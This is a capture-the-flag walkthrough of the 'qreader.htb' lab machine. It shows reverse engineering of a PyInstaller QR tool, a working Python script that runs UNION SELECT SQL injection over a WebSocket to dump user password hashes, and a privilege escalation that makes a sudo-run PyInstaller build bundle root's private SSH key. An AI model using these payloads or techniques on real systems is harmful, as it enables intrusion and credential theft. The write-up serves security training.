

# PORT SCAN

<u>TCP</u>
* **22** [ssh]
* **80** [http] &#8594; Apache httpd 2.4.52


This is the page at port 80 with the name `qreader.htb`


With the <u>**Read your QR code**</u> we can upload a QR code and read the text embeeded inside it and with <u>Embed your text</u> create a QR code with the text we provide (I investigated on the meta-data but nothing interesting at all).

<br>

Also at **/report** we can submit a complaint  with this field "First Name", "Subject" and "Description" but doesn't seems abusable in any way (meanwhile I was fuzzing around a sqlmap scan in the background was active and wait for some results).

In the bottom page we are able to download the tool used in the backend to read and embeed text into QR code and it comes with a test QR code, if we use the tool on that QR the tool will return "**kavigihan**" (the creator of the machine)


The tool seems to be costum so no known vulnerability here but when I tried one of the option on the section **About** (say version) an error pop out `[ERROR] Connection Error!` so maybe is trying to connect somewher but can reach it

We need a little bit of `Reverse Engineering` to know what is happening under the hood of the app and we can see the import of `websockets` library and this Exception which probably is what lead the application to not be able to connect


**PyInstaller** act like a compiler reading the python code, collecting all the libraries and modules required in order to make a single executable file. With **[pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor)** we can extract the contents from the executable file


Reading the **qreader.pyc** file we can find the server which the app try to connect


Ok websocket are something new for me and I will put an image that best can define the difference between HTTP/HTTPS and WS/WSS 


Now I will add to my host file the address `ws.qreader.htb` and now the section **about** of the tool work and gave me this version as ouput


Now will be usefull to create a python script to intercepet all the messages that the localhost and the remote box are sending each other, I tried wth different tools online (I've also created one by myself but is not working)

We can look at the original source code of the app using [pycdc](https://github.com/zrax/pycdc)


This is the snippet of code when we press `update` button


And here the code used through the `version` button


in **asyncio.run** we note that the endpoint which the application connect is `ws://qreader.htb/version` sending this payload 

```json
{'version':0.0.2}
```

I tried to create a middleware with python that can be used as proxy with sqlmap targetting the WebSocket target but whitout results (maybe I will try in the following days to make one) so I need to make a script that do the injection manually where we are returning back username and admin (fortunately I'm doing the Juice Shop walkthrough and I have done some SQL injection manually so I'm well prepared aboutn **UNION SELECT**) this is the final code

```python
from websocket import create_connection
import json

ws_host = 'ws://qreader.htb:5789'
VERSION = '0.0.2" UNION SELECT username,password,"3","4" from users;-- -'

ws = create_connection(ws_host + '/version')
ws.send(json.dumps({'version': VERSION}))
result = ws.recv()

print(result)
ws.close()
```


And here he results


We just need to crack the hash and we can try this credentials in ssh


I've tried to login with the username "admin" but failed so we need to make some more enumaration with the script


`[...] UNION SELECT group_concat(name) [...] from sqlite_master ;-- -`


`[...] UNION SELECT sql [...] from sqlite_master WHERE name="answers";-- -`


`[...] UNION SELECT answer [...] from answers ;-- -`



So we have a possible username based on Thomas Keller and **tkeller** work with the passwords we have retrieved

<br><br>

# PRIVILEGE ESCALATION

Linepeas gave me this interesting output


This is the script code 


```

if arguments are not 2 and first argument is not cleanup{
	exit
} 

$action=first_arg
$name=second_arg
$ext = extension of the name provided (ex:/ s.py --> py)

if $name already exist
	exit (no symbolic link allowed)
	
if $action==build
	if $ext==spec{
		remove /opt/shared/build /opt/shared/dist
		pyinstaller $name
		mv ./dist ./build /opt/shared
	}else{
		exit (invalid format)
	}
	
	
else if($action == make){
	if($ext == py){
		remove /opt/shared/build /opt/shared/dist
		pyinstaller -F --name "qreader" $name --specpath /tmp
		mv ./dist ./build /opt/shared
	}else{
		exit(Invalid format)
	}

}else if($action==cleanup){
	remove ./build ./dist
	remove /opt/shared/build /opt/shared/dist
	remove /tmp/qreader
}else{
	exit(invalid action)
}
```

I created a script in python that spawn a shell and the spec file the created executable is owned by the root but when execute the permission are the one of the one who execute it and there is no way to bypass or abuse this (we can't change the SUID of the executable)

<br>

Following the documentation inside the spec fileswe can include whatever file (non-binary)


So we are running **PyInstaller** as root with SUDO we can include the private ssh keys of root user


After the creation using the `build` function of the script I downloaded locally the executable and using **pyinstxtractor**  we can decompile the binary.

Inside we have the **ID_RSA private key**


Than I just add the key in the my keyring and access through SSH as root.

PWNED!
